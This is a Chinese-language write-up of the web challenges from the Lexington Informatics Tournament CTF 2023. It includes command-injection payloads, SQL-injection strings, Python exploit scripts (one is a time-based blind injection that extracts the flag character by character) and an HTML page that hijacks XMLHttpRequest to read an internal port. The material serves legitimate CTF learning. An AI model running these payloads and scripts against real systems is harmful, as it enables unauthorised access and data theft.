





Lexington Informatics Tournament CTF 2023
WEB
My boss left
题目描述
My boss left… Guess I can be a bit more loose on checking people. http://litctf.org:31784/
题目分析
签到题目，源码中已给出了密码，直接登录就可以拿到 flag。具体 wp 可参看同名文件夹。
unsecure
题目描述
As it turns out, the admin who runs our website is quite insecure. They use password123 as their password. (Wrap the flag in LITCTF{}) http://litctf.org:31776/
题目分析
感觉像是一个暴力破解用户名的题目，先试一下再说。从这位大哥处拿到用户名字典。之后用 burp 的 intruder 模块来做就可以。
发现是 admin，之前我试过的，但是复制密码的时候出错了…
一路跳转，最后发现有一个类似于 flag 的路径，提交然后成功了，属实没想到。。

Ping Pong
题目描述
I made this cool website where you can ping other websites!
题目分析
一个简单的命令注入，表单提交 hostname 就好。
; cat ./flag.txt
amogsus-api
题目描述
I’m working on this new api for the awesome game amogsus You can try it out here:http://litctf.org:31783/
There seems to be a vulnerability I missed though…
题目分析
一个 sqlite3 注入的题目，在 /account/update 路由处没有进行参数的过滤，所以可以通过 sql 注入将 sus 改为 true，然后再去访问 /flag 就可以获得 flag了。记得先注册一下！
K8ZH302X2NC3YDX6UIE571EG1QPU8RNP5MBBM0UZ
test1", sus=1#
token 的时效太短了，可能必须要用脚本来做。还要注意要在 password 注入，因为后面访问 /flag 时要用到 username。
import requests
import json
def main():
url = "http://litctf.org:31783/"
data = {
"username" : "test1",
"password" : "test1"
}
r = requests.post(url=url+"login", data=data)
auth = json.loads(r.text)["token"]
print(auth)
print("更新账户")
data = {
"username" : "test1",
"password" : "test1\",sus=1--"
}
headers = {
"Authorization" : auth
}
r = requests.post(url=url+"account/update",data=data,headers=headers)
print(r.text)
print("获得flag")
r = requests.get(url+"flag", headers=headers)
print(r.text)
if __name__ == "__main__":
main()
license-inject
题目描述
i did a thing
题目分析
源码很长，是一个 TypeScirpt 的。然后做的事情是用 OCR 扫描图片提取文本，之后有一个 sqlite 的数据库操作。
~~源码还看不太懂，跟着 gpt 慢慢来。~~大概看懂了，flag 在数据库的某个表里面，代码有执行一个查询操作，不过是根据车牌号来查的，flag 就是这个车牌的金额。
打开题目是让我传一个仅包含文本的车牌图片，然后它会识别车牌，告诉我这个车牌对应的一些信息。糟糕的点是 flag 的车牌号是随机生成的，看上去没办法直接获得 flag。难道说代码的随机数生成是有问题的吗？或许这是一个值得思考的点。
emmm，我没有注意到 select 的时候没有对参数进行过滤，所以这实际上是一个简单的 sqlite 注入。
`SELECT * FROM plates WHERE plate = "${text}"`
text 变量就是上传的图片含有的文字，在这里我们让 text 为 None” OR name=”codetiger 就好，那这样实际上的 sqlite 语句就变为：
SELECT * FROM plates WHERE plate = "None" OR name="codetiger"
但是我比较奇怪的是，数据库中有 name=codetiger 的表项吗？后面看源码发现这个 codetiger 是 flag 对应的 name。

Ping Pong: Under Maintenance
题目描述
The website seems to be under maintenance.
题目分析
依旧是无过滤的命令注入，但是这一次没有回显了。我想用带外的，但是题目说被禁掉了。
我尝试将 flag 重定向到别处，但是无法访问…
只剩下最后一种方法，那就是延迟注入，类似于 sql 盲注。
-h||if [ $(grep -r -h 'LITCTF{a') ]; then sleep 5; fi
利用 grep 命令递归地寻找 flag 字符串，-h 不打印文件路径和文件名。
import time
import requests
charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}_'
URL = "http://34.130.180.82:59378/"
flag = "LITCTF{"
while True:
for c in charset:
payload = f"-h || if [ $(grep -r -h '{flag+c}') ]; then sleep 1.5; fi"
t = time.time()
response = requests.post(URL, data={'hostname': payload})
if time.time() - t > 1:
flag += c
print(flag)
break
if flag.endswith('}'):
print(f"Flag recovered: {flag}")
break
fetch
题目描述
fetch me the flag at http://litctf.org:31770/
题目分析
这个题目为什么好眼熟…..
思路也比较简单，根据源码可以知道访问 6969 端口就可以拿到 flag 文件，但是题目正常的业务逻辑仅仅只是访问了 6969 端口而并不会返回响应的 flag 文件：

newPage + goto 打开我们上传的 html 页面
evaluate 在打开的页面中执行 js
面对这种情况，有一个很神奇的做法，就是像 js 原型链污染那样去修改 XMLHTTPRequest 的原型，让其的 open 和 send 能够访问 6969 端口并输出 flag 文件的内容。exp 如下：
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Document</title>
</head>
<body>
<h1 id="h">test</h1>
<script>
window.XMLHttpRequest.prototype.open = (...args) => {
fetch(args[1])
.then((res) => res.text())
.then(txt => document.getElementById("h").innerHTML = txt.replace(/(.{10})/g, '$1\n') + "**DONE**")
//document.getElementById("h").innerHTML = args[1].replace(/(.{10})/g, '$1\n') + " done";
}
window.XMLHttpRequest.prototype.send = () => { }
</script>
</body>
</html>
以上是核心的 exp，现在编写 python脚本进行全部的处理：
import requests
from PIL import Image
from io import BytesIO
def main():
url = "http://litctf.org:31770/runHTML"
with open("./exp.html","rb") as file:
files = {"file" : ("exp.html", file, 'text/html')}
r = requests.post(url=url,files=files)
ans = r.content
image = Image.open(BytesIO(ans))
image.save("flag.png")
print("check!")
if __name__ == "__main__":
main()

too much kirby
题目描述
literally every single unused web chal jammed into one kirby-sized package (horrible painful amalgamation)
题目分析
非预期：
/challenge5 上传文件就可以拿到 flag，这里需要绕过一下前端的后缀名检测。

预期解当然就是绕过前四关然后拿到 flag，这里第三关我暂时没想出来如何绕过。等待wp中….